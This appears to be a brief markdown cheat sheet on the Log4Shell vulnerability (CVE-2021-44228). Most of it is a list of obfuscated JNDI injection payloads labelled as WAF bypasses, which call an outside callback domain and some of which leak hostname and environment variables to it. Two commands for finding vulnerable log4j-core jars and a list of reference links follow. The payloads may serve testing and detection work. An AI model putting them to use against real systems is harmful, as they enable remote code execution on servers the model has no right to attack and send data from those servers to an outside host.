 ## CVE-2021-44228

### Waf bypass
```

${jndi:ldap://127.0.0.1:1389/ badClassName} 
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
```
### 查找
```
find . -name *.jar|grep log4j-core
mvn dependency:tree -Dincludes=org.apache.logging.log4j:log4j-core
```


### Ref
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml
- https://gist.github.com/ZephrFish/32249cae56693c1e5484888267d07d39
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/jas502n/Log4j2-CVE-2021-44228
- http://slf4j.org/log4shell.html
- https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql
- [Apache Log4j2 漏洞影响面查询](https://log4j2.huoxian.cn/layout)
